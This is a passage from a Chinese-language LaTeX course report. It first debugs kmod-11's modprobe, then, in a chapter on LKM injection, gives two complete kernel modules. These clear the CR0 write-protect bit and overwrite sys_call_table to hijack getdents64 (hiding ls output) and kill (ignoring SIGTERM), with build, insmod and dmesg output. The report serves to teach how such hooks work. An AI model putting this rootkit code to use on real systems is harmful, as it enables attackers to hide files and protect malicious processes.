
\includegraphics{./pictures/3-2-make.png}
\caption{make编译成功,增量编译了libkmod-module模块}
\end{figure}

\subsection{运行 modprobe nfs}

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/modprobe nfs
<mydebug> line = kernel/fs/nfs/nfs.ko: kernel/fs/nfs_common/nfs_acl.ko kernel/net/sunrpc/auth_gss/auth_rpcgss.ko kernel/fs/fscache/fscache.ko kernel/fs/lockd/lockd.ko kernel/net/sunrpc/sunrpc.ko

$ lsmod | grep nfs
nfsd                  229850  13 
nfs                   307376  0 
nfs_acl                12771  2 nfsd,nfs
auth_rpcgss            39597  2 nfsd,nfs
fscache                50642  1 nfs
lockd                  78804  2 nfsd,nfs
sunrpc                205647  19 nfsd,nfs,nfs_acl,auth_rpcgss,lockd
$ 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/3-3-modprobe.png}
\caption{运行 modprobe nfs 完成插入}
\end{figure}

\subsection{插入167行打印语句}

{\begin{shaded}\begin{verbatim}
$ vi kmod-11/libkmod/libkmod-module.c +161
161         p++;
162         for (p = strtok_r(p, " \t", &saveptr); p != NULL;
163                                         p = strtok_r(NULL, " \t", &saveptr)     ) {
164                 struct kmod_module *depmod;
165                 const char *path;
166 
167                 printf("<mydebug> p = %s\n", p);
168                 path = path_join(p, dirnamelen, buf);
169                 if (path == NULL) {
170                         ERR(ctx, "could not join path '%s' and '%s'.\n",
171                             dirname, p);
172                         goto fail;
173                 }
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/3-4-print-p.png}
\caption{插入打印每个模块名称的调试代码}
\end{figure}

\subsection{重新编译生成新的 modprobe}

{\begin{shaded}\begin{verbatim}
$ make -C kmod-11/
make: Entering directory `/home/akaedu/Github/test-kmod-11/kmod-11'
make --no-print-directory all-recursive
Making all in .
  CC       libkmod/libkmod-module.lo
  CCLD     libkmod/libkmod.la
  CCLD     libkmod/libkmod-private.la
  CCLD     tools/kmod
  CCLD     tools/kmod-nolib
Making all in libkmod/docs
make[2]: Nothing to be done for `all'.
Making all in man
make[2]: Nothing to be done for `all'.
make: Leaving directory `/home/akaedu/Github/test-kmod-11/kmod-11'
$ 
\end{verbatim}\end{shaded}}
\subsection{运行 modprobe nfs}

{\begin{shaded}\begin{verbatim}
$ ./kmod-11/tools/modprobe nfs
<mydebug> line = kernel/fs/nfs/nfs.ko: kernel/fs/nfs_common/nfs_acl.ko kernel/net/sunrpc/auth_gss/auth_rpcgss.ko kernel/fs/fscache/fscache.ko kernel/fs/lockd/lockd.ko kernel/net/sunrpc/sunrpc.ko
<mydebug> p = kernel/fs/nfs_common/nfs_acl.ko
<mydebug> p = kernel/net/sunrpc/auth_gss/auth_rpcgss.ko
<mydebug> p = kernel/fs/fscache/fscache.ko
<mydebug> p = kernel/fs/lockd/lockd.ko
<mydebug> p = kernel/net/sunrpc/sunrpc.ko
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/3-5-print-p-output.png}
\caption{调试代码输出详细调试信息}
\end{figure}

\chapter{Kmod-11 项目安全漏洞分析报告}

Kmod
项目本身是为了给用户空间提供一套可以对内核模块进行编程的接口,同时顺便用这套接口实现了原来
module-init-tools 的命令集合,用以验证这套库的正确性。
这个项目本身的安全漏洞并不是黑客攻击的主要方向和手段,而是基于内核模块加载之后,利用内核模块在系统空间运行这一特性,
能够访问Linux 的系统资源,例如修改系统调用表
sys\_call\_table,可以影响内核的行为从而达到进行攻击并留下安全漏洞的目的,这种攻击手法称为LKM注入。

LKM是 Linux Kernel Moudle 的简称,LKM
注入的一般做法都是通过编写一个特定的内核模块,将这个模块通过 sudo insmod
加载进入内核,
这个被加载的内核模块,通常是修改系统调用,或者是添加系统调用,从而使得在用户空间的行为将可能存在安全漏洞。

由于这种手法是通过修改内核空间的代码和数据来实现的,并不影响用户空间的程序,因此无法通过一般的对比文件差异的方法被识别出来,具有很强的隐蔽性。

以下我们通过2个例子,来说明这种安全漏洞如何实现和解决。

\section{安全漏洞案例1-ls命令}

我们经常使用的用户空间的命令,大部分都是通过系统调用来完成的。例如 ls
显示目录内容的命令,我们可以通过 strace
来跟踪程序使用了何种系统调用,通过修改系统调用表中对应的函数入口地址,可以截获
ls
命令的执行,例如让它什么都不显示,直接返回,这样就可以达到隐藏某些特殊文件的目的。

\subsection{strace 跟踪 ls 命令的系统调用}

{\begin{shaded}\begin{verbatim}
$ strace ls
execve("/bin/ls", ["ls"], [/* 35 vars */]) = 0
brk(0)                                  = 0x9dba000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7764000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=84304, ...}) = 0
mmap2(NULL, 84304, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb774f000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libselinux.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0@A\0\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0644, st_size=120748, ...}) = 0
mmap2(NULL, 125852, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7730000
mmap2(0xb774d000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1c) = 0xb774d000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/librt.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\320\30\0\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0644, st_size=30684, ...}) = 0
mmap2(NULL, 33360, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7727000
mmap2(0xb772e000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x6) = 0xb772e000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libacl.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\200\24\0\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0644, st_size=30300, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7726000
mmap2(NULL, 33088, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb771d000
mmap2(0xb7724000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x6) = 0xb7724000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0000\226\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1730024, ...}) = 0
mmap2(NULL, 1739484, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7574000
mmap2(0xb7717000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a3) = 0xb7717000
mmap2(0xb771a000, 10972, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xb771a000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0`\n\0\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0644, st_size=13940, ...}) = 0
mmap2(NULL, 16504, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb756f000
mmap2(0xb7572000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x2) = 0xb7572000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libpthread.so.0", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0p[\0\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=124663, ...}) = 0
mmap2(NULL, 107008, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb7554000
mmap2(0xb756b000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x16) = 0xb756b000
mmap2(0xb756d000, 4608, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xb756d000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libattr.so.1", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0@\f\0\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0644, st_size=17816, ...}) = 0
mmap2(NULL, 20584, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xb754e000
mmap2(0xb7552000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x3) = 0xb7552000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb754d000
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb754c000
set_thread_area({entry_number:-1 -> 6, base_addr:0xb754c740, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0
mprotect(0xb7717000, 8192, PROT_READ)   = 0
mprotect(0xb7552000, 4096, PROT_READ)   = 0
mprotect(0xb756b000, 4096, PROT_READ)   = 0
mprotect(0xb7572000, 4096, PROT_READ)   = 0
mprotect(0xb7724000, 4096, PROT_READ)   = 0
mprotect(0xb772e000, 4096, PROT_READ)   = 0
mprotect(0xb774d000, 4096, PROT_READ)   = 0
mprotect(0x8061000, 4096, PROT_READ)    = 0
mprotect(0xb7787000, 4096, PROT_READ)   = 0
munmap(0xb774f000, 84304)               = 0
set_tid_address(0xb754c7a8)             = 5563
set_robust_list(0xb754c7b0, 0xc)        = 0
futex(0xbfe24424, FUTEX_WAIT_BITSET_PRIVATE|FUTEX_CLOCK_REALTIME, 1, NULL, b754c740) = -1 EAGAIN (Resource temporarily unavailable)
rt_sigaction(SIGRTMIN, {0xb7559570, [], SA_SIGINFO}, NULL, 8) = 0
rt_sigaction(SIGRT_1, {0xb75595f0, [], SA_RESTART|SA_SIGINFO}, NULL, 8) = 0
rt_sigprocmask(SIG_UNBLOCK, [RTMIN RT_1], NULL, 8) = 0
getrlimit(RLIMIT_STACK, {rlim_cur=8192*1024, rlim_max=RLIM_INFINITY}) = 0
uname({sys="Linux", node="ubuntu", ...}) = 0
statfs64("/selinux", 84, {f_type="EXT2_SUPER_MAGIC", f_bsize=4096, f_blocks=2482061, f_bfree=409986, f_bavail=285481, f_files=622592, f_ffree=316434, f_fsid={497937565, 1217050106}, f_namelen=255, f_frsize=4096}) = 0
brk(0)                                  = 0x9dba000
brk(0x9ddb000)                          = 0x9ddb000
open("/proc/filesystems", O_RDONLY|O_LARGEFILE) = 3
fstat64(3, {st_mode=S_IFREG|0444, st_size=0, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7763000
read(3, "nodev\tsysfs\nnodev\trootfs\nnodev\tb"..., 1024) = 353
read(3, "", 1024)                       = 0
close(3)                                = 0
munmap(0xb7763000, 4096)                = 0
open("/usr/lib/locale/locale-archive", O_RDONLY|O_LARGEFILE|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=8748544, ...}) = 0
mmap2(NULL, 2097152, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb734c000
mmap2(NULL, 4096, PROT_READ, MAP_PRIVATE, 3, 0x5e0) = 0xb7763000
close(3)                                = 0
ioctl(1, SNDCTL_TMR_TIMEBASE or TCGETS, {B38400 opost isig icanon echo ...}) = 0
ioctl(1, TIOCGWINSZ, {ws_row=24, ws_col=80, ws_xpixel=0, ws_ypixel=0}) = 0
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|O_CLOEXEC) = 3
getdents64(3, /* 25 entries */, 32768)  = 752
getdents64(3, /* 0 entries */, 32768)   = 0
close(3)                                = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 3), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7762000
write(1, "aclocal.m4   config.log     COPY"..., 67aclocal.m4   config.log     COPYING  Makefile   NEWS      testsuite) = 67
write(1, "build-aux    config.status  libk"..., 65build-aux    config.status  libkmod  Makefile.am  README    TODO) = 65
write(1, "config.h     configure\t    libto"..., 65config.h     configure       libtool  Makefile.in  stamp-h1  tools) = 65
write(1, "config.h.in  configure.ac   m4\t "..., 47config.h.in  configure.ac   m4        man      tags) = 47
close(1)                                = 0
munmap(0xb7762000, 4096)                = 0
close(2)                                = 0
exit_group(0)                           = ?
$ 
\end{verbatim}\end{shaded}}
这里显示了在 ls
命令执行过程中所有用到的系统调用,通过我们对系统调用的深入研究,我们可以知道
ls 命令的实现过程中,用到了一个关键的系统调用 getdents。

如果我们用 grep getdents 则可以找到最至关重要的这个系统调用。

{\begin{shaded}\begin{verbatim}
$ strace ls 2>&1 | grep dent
getdents64(3, /* 23 entries */, 32768)  = 736
getdents64(3, /* 0 entries */, 32768)   = 0
\end{verbatim}\end{shaded}}
\subsection{获得系统调用号}

查看内核源码中的 unistd\_32.h
文件,可以找到这个系统调用所对应的系统调用号是 220.

{\begin{shaded}\begin{verbatim}
$ cat /usr/src/linux-headers-3.2.0-29-generic-pae/arch/x86/include/asm/unistd_32.h | grep getdents 
#define __NR_getdents       141
#define __NR_getdents64     220
\end{verbatim}\end{shaded}}
\subsection{获得系统调用表的入口地址}

通过查询 /proc/kallsyms 找到 sys\_call\_table 系统调用表的入口地址
c15b0000

{\begin{shaded}\begin{verbatim}
$ sudo cat /proc/kallsyms | grep sys_call_table
c15b0000 R sys_call_table
$ 
\end{verbatim}\end{shaded}}
\subsection{编写内核源码文件}

我们可以写一个内核源码文件,hackls.c,如下内容:

{\begin{shaded}\begin{verbatim}
$ cat hackls.c

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <asm/unistd.h>

#define SYSCALL_NUM __NR_getdents64

MODULE_AUTHOR("AKAEDU");
MODULE_DESCRIPTION("module example ");
MODULE_LICENSE("GPL");

// see all syscall number in 
// /usr/src/linux-headers-3.2.0-29-generic-pae/arch/x86/include/asm/unistd_32.h 

void ** sys_call_table = (int *)0xc15b0000;
int (*orig_syscall)(const char *path); /*未改前的系统调用*/

int hacked_cmd(const char *path)
{
    printk("haha, your command is hacked!\n");
    return 0; /*一切正常,但新的系统调用什么也不做*/
}

int orig_cr0;

unsigned int clear_and_return_cr0(void)
{
    unsigned int cr0 = 0;
    unsigned int ret;

    asm volatile("movl %%cr0,%%eax"
            :"=a"(cr0)
            );      //存储cr0的值
    ret = cr0;

    /*将cr0的第16位清零,第16为0表示允许超级权限*/
    cr0 &= 0xfffeffff;
    asm volatile("movl %%eax,%%cr0"
            :
            :"a"(cr0)
            );
    return ret;
}

//恢复cr0寄存器的第16位
void setback_cr0(unsigned int val)
{
    asm volatile("movl %%eax,%%cr0"
            :
            :"a"(val)
            );    
}

int my_init_module(void) /*模块初始化*/
{
    printk("init ok, SYSCALL NUM = %d\n", SYSCALL_NUM);
    printk("table at %p\n", sys_call_table);

    orig_cr0 = clear_and_return_cr0(); //cr0寄存器的第16位清0

    orig_syscall = sys_call_table[SYSCALL_NUM];

    sys_call_table[SYSCALL_NUM] = hacked_cmd;

    //恢复cr0寄存器的第16位    
    setback_cr0(orig_cr0);

    return 0;
}

void my_cleanup_module(void) /*模块卸载*/
{
    printk("exit ok\n");

    orig_cr0 = clear_and_return_cr0(); //cr0寄存器的第16位清0

    sys_call_table[SYSCALL_NUM] = orig_syscall; /*把系统调用恢复*/

    //恢复cr0寄存器的第16位    
    setback_cr0(orig_cr0);
}


module_init(my_init_module);
module_exit(my_cleanup_module);
$ 
\end{verbatim}\end{shaded}}
Makefile 的内容如下

{\begin{shaded}\begin{verbatim}
$ cat Makefile 

obj-m := hackls.o

KDIR := /usr/src/linux-headers-3.2.0-29-generic-pae/

all:
    make -C $(KDIR) SUBDIRS=$(PWD)  modules

clean:
    rm -rf *.o *.ko *.mod.* *.cmd 
    rm -rf .*
    rm modules.order Module.symvers
\end{verbatim}\end{shaded}}
\subsection{编译并加载内核模块}

然后我们编译这个内核模块

{\begin{shaded}\begin{verbatim}
$ make
make -C /usr/src/linux-headers-3.2.0-29-generic-pae/    SUBDIRS=/home/akaedu/Github/comment-subs/secure-hole/1-hackls   modules
make[1]: Entering directory `/usr/src/linux-headers-3.2.0-29-generic-pae'
  CC [M]  /home/akaedu/Github/comment-subs/secure-hole/1-hackls/hackls.o
/home/akaedu/Github/comment-subs/secure-hole/1-hackls/hackls.c:20:26: warning: initialization from incompatible pointer type [enabled by default]
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/akaedu/Github/comment-subs/secure-hole/1-hackls/hackls.mod.o
  LD [M]  /home/akaedu/Github/comment-subs/secure-hole/1-hackls/hackls.ko
make[1]: Leaving directory `/usr/src/linux-headers-3.2.0-29-generic-pae'
$ 
\end{verbatim}\end{shaded}}
\subsection{清空系统日志信息以便查看模块加载信息}

{\begin{shaded}\begin{verbatim}
$ sudo dmesg -C
$ dmesg 
\end{verbatim}\end{shaded}}
\subsection{插入模块打印加载提示信息}

{\begin{shaded}\begin{verbatim}
$ sudo insmod hackls.ko
$ dmesg 
[ 5943.659744] init ok, SYSCALL NUM = 220
[ 5943.659749] table at c15b0000
\end{verbatim}\end{shaded}}
\subsection{模块加载后运行 ls 命令没有输出}

{\begin{shaded}\begin{verbatim}
$ ls
$ dmesg 
[ 5943.659744] init ok, SYSCALL NUM = 220
[ 5943.659749] table at c15b0000
[ 5949.890430] haha, your command is hacked!
\end{verbatim}\end{shaded}}
查看内核打印信息中,已经能够看到 hack\_cmd 函数被调用过,有输出信息。
每运行一次 ls ,则我们注册的 hack\_cmd 函数就会被调用一次。

{\begin{shaded}\begin{verbatim}
$ ls
$ dmesg 
[ 5943.659744] init ok, SYSCALL NUM = 220
[ 5943.659749] table at c15b0000
[ 5949.890430] haha, your command is hacked!
[ 5954.812887] haha, your command is hacked!
\end{verbatim}\end{shaded}}
虽然ls不能输出显示文件信息,但并不影响其他命令的执行。例如 head 和 cat
命令仍然能够查看文件内容。

{\begin{shaded}\begin{verbatim}
$ head Makefile

obj-m := hackls.o

KDIR := /usr/src/linux-headers-3.2.0-29-generic-pae/

all:
    make -C $(KDIR) SUBDIRS=$(PWD)  modules

clean:
    rm -rf *.o *.ko *.mod.* *.cmd 
\end{verbatim}\end{shaded}}
\subsection{卸载模块后运行 ls 输出恢复正常}

{\begin{shaded}\begin{verbatim}
$ sudo rmmod hackls.ko
$ dmesg 
[ 5943.659744] init ok, SYSCALL NUM = 220
[ 5943.659749] table at c15b0000
[ 5949.890430] haha, your command is hacked!
[ 5954.812887] haha, your command is hacked!
[ 5992.610083] exit ok
$ ls
hackls.ko     hackls.mod.o  Makefile       Module.symvers
hackls.c  hackls.mod.c  hackls.o      modules.order
$ 
\end{verbatim}\end{shaded}}
通过查看系统调用表,我们也可以按照同样方法检测 mkdir, rmdir 等命令。

{\begin{shaded}\begin{verbatim}
$ vi /usr/src/linux-headers-3.2.0-29-generic-pae/arch/x86/include/asm/unistd_32.h 
 47 #define __NR_mkdir               39
 48 #define __NR_rmdir               40
\end{verbatim}\end{shaded}}
\section{安全漏洞案例2-Kill命令}

我们使用 kill
命令可以杀死进程,如果是黑客注入的某些进程,通常不希望用户可以用 kill
命令杀死,而其他进程则可以杀死。要实现这个功能,就需要对 kill
命令的进程号和进程名称进行识别,如果是某些特殊进程,则可以忽略不杀死,对于其他进程,则可以用原来的系统调用来进行处理。

\subsection{获得系统调用号}

{\begin{shaded}\begin{verbatim}
$ cat /usr/src/linux-headers-3.2.0-29-generic-pae/arch/x86/include/asm/unistd_32.h | grep kill
#define __NR_kill        37
#define __NR_tkill      238
#define __NR_tgkill     270
\end{verbatim}\end{shaded}}
\subsection{编译源码}

{\begin{shaded}\begin{verbatim}
$ cat hack-kill.c

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <asm/unistd.h>

#include <linux/sched.h>

//#define SYSCALL_NUM   __NR_getdents64
#define SYSCALL_NUM __NR_kill

MODULE_AUTHOR("AKAEDU");
MODULE_DESCRIPTION("module example ");
MODULE_LICENSE("GPL");

// see all syscall number in 
// /usr/src/linux-headers-3.2.0-29-generic-pae/arch/x86/include/asm/unistd_32.h 

//extern void* sys_call_table[]; /*sys_call_table 被引出,所以我们可访问它*/
void ** sys_call_table = (int *)0xc15b0000;
int (*orig_syscall)(int pid, int sig, ...); /*未改前的系统调用*/

long hacked_cmd(int pid, int sig_no, ...)
{
    struct task_struct *ptr = current;
    int ret;

    printk("kill para pid = %d! sig = %d\n", pid, sig_no);

    if ((pid == ptr->pid) && (sig_no == SIGTERM))
    {
        printk("kill is hacked!\n");
        printk("Use kill -9 to kill your bash!\n");
        return 0;
    }

    ret = (*orig_syscall)(pid, sig_no);
    printk("ret = %d\n", ret);
    return  ret;
}

int orig_cr0;

unsigned int clear_and_return_cr0(void)
{
    unsigned int cr0 = 0;
    unsigned int ret;

    asm volatile("movl %%cr0,%%eax"
            :"=a"(cr0)
            );                                    //存储cr0的值
    ret = cr0;

    /*将cr0的第16位清零,第16为0表示允许超级权限*/
    cr0 &= 0xfffeffff;
    asm volatile("movl %%eax,%%cr0"
            :
            :"a"(cr0)
            );
    return ret;
}

//恢复cr0寄存器的第16位
void setback_cr0(unsigned int val)
{
    asm volatile("movl %%eax,%%cr0"
            :
            :"a"(val)
            );    
}

int my_init_module(void) /*模块初始化*/
{
    printk("init ok, SYSCALL NUM = %d\n", SYSCALL_NUM);
    printk("table at %p\n", sys_call_table);

    orig_cr0 = clear_and_return_cr0(); //cr0寄存器的第16位清0

    orig_syscall = sys_call_table[SYSCALL_NUM];

    sys_call_table[SYSCALL_NUM] = hacked_cmd;

    //恢复cr0寄存器的第16位    
    setback_cr0(orig_cr0);

    return 0;
}

void my_cleanup_module(void) /*模块卸载*/
{
    printk("exit ok\n");

    orig_cr0 = clear_and_return_cr0(); //cr0寄存器的第16位清0

    sys_call_table[SYSCALL_NUM] = orig_syscall; /*把系统调用恢复*/

    //恢复cr0寄存器的第16位    
    setback_cr0(orig_cr0);
}


module_init(my_init_module);
module_exit(my_cleanup_module);
$ 
\end{verbatim}\end{shaded}}
\subsection{编译生成内核模块}

{\begin{shaded}\begin{verbatim}
$ make
make -C /usr/src/linux-headers-3.2.0-29-generic-pae/    SUBDIRS=/home/akaedu/Github/comment-subs/secure-hole/2-hack-kill    modules
make[1]: Entering directory `/usr/src/linux-headers-3.2.0-29-generic-pae'
  CC [M]  /home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.o
